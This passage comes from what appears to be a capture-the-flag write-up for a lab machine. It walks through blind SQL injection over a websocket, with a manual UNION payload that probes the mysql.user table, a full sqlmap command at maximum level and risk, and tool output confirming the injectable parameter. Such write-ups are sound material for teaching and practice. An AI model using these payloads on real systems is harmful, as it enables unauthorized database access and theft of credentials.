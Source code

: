     {"id":"0 UNION select user,2,3 from mysql.user where user like 'a%'-- -"}



It returns false. There is likely a user named "root", and changing "a"
to "r", it returns true:

![](/img/image-20230604211417121.png)

With enough requests, any value from the table can be brute-forced one
character at a time.

#### sqlmap

Doing all of this manually is impossible, so I'll either have to write a
script to do it, or find a tool. `sqlmap` is the perfect tool here, and
it even works over websockets.

If `sqlmap` returns this error, it's because the Python websockets
library is missing:



    [21:17:13] [CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality 



Or if `sqlmap` returns this error, it's because the wrong websockets
library is installed:



    [21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/sqlmapapi.py'
    [21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/sqlmap.py'
    [21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/thirdparty/identywaf/identYwaf.py'
    [21:18:30] [CRITICAL] wrong websocket library detected (Reference: 'https://github.com/sqlmapproject/sqlmap/issues/4572#issuecomment-77504
    1086')



Either of these are fixed with `pip install websocket-client`.

I'll give it the following arguments:

-   `-u "ws://soc-player.soccer.htb:9091"` - The URL to connect to.
-   `--data '{"id": "1234"}'` - The data to send.
-   `--dbms mysql` - Tell `sqlmap` that it's running MySQL.
-   `--batch` - Take the default answer on all questions.
-   `--level 5 --risk 3` - Increase to the most aggressive to find the
    boolean injection (without this it just finds a time-based
    injection, which is really slow).

It finds a time-based injection, and then finds the three column
`UNION`-based boolean as well:



    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --lev
    el 5 --risk 3
    ...[snip]...
    [21:24:42] [INFO] testing connection to the target URL
    ...[snip]...
    [21:30:25] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [21:30:32] [INFO] (custom) POST parameter 'JSON id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
    ...[snip]...
    [21:30:45] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [21:30:56] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    ...[snip]...